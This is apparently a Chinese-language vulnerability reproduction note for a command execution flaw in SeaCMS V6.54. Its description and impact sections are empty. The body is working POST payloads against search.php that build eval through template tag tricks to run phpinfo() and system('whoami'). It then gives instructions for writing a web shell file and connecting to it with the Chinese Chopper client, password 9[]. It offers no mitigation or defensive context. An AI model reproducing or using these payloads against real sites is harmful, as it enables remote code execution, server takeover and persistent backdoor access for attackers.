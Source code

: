 # 海洋CMS seacms V6.54 命令执行

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

path:


```bash
http://url/search.php

POST:

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

命令执行payload

path:


```bash
http://url//search.php

POST:

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");
```

权限足够的话，file_put_concents(“connect.php”,”“)，然后连接菜刀即可

权限不足的话，利用payload构造url：


```
http://url//search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))
```

连接放入菜刀，密码是 9[]